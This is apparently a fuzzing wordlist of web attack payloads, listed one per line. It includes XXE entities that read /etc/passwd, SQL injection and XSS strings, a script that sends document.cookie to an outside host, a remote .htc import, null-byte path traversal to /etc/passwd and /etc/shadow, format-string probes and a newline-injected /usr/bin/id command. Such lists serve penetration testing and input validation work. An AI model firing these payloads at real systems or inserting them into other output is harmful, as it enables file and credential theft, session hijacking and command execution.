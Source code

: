 %e5
%e6
%e7
%e8
%e9
%ea
%eb
%ec
%ed
%ee
%ef
%f0
%f1
%f2
%f3
%f4
%f5
%f6
%f7
%f8
%f9
%fa
%fb
%fc
%fd
%fe
%ff
"<?xml version=""1.0"" encoding=""ISO-8859-1""?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM ""file:////dev/random"">]><foo>&xxe;</foo>"
"<?xml version=""1.0"" encoding=""ISO-8859-1""?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM ""file:////etc/passwd"">]><foo>&xxe;</foo>"
"<?xml version=""1.0"" encoding=""ISO-8859-1""?><foo><![CDATA[' or 1=1 or ''=']]></foo>"
"<?xml version=""1.0"" encoding=""ISO-8859-1""?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>"
"<HTML xmlns:xss><?import namespace=""xss"" implementation=""http://ha.ckers.org/xss.htc""><xss:xss>XSS</xss:xss></HTML>"
"<xml ID=""xss""><I><B><IMG SRC=""javascript:alert('XSS')""></B></I></xml><SPAN DATASRC=""#xss"" DATAFLD=""B"" DATAFORMATAS=""HTML""></SPAN></C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>"
"<xml ID=I><X><C><![CDATA[<IMG SRC=""javas]]><![CDATA[cript:alert('XSS');"">]]>"
"><script>"
"><script>alert(1)</script>
"><script>document.location='http://your.site.com/cgi-bin/cookie.cgi?'+document.cookie</script>
">xxx<P>yyy
"\t"
#
#&apos;
#'
#xA
#xA#xD
#xD
#xD#xA
$NULL
$null
%
%#0123456x%08x%x%s%p%d%n%o%u%c%h%l%q%j%z%Z%t%i%e%g%f%a%C%S%08x%%
%00
%00../../../../../../etc/passwd
%00../../../../../../etc/shadow
%00/
%00/etc/passwd%00
%01%02%03%04%0a%0d%0aADSF
%08x
%0A/usr/bin/id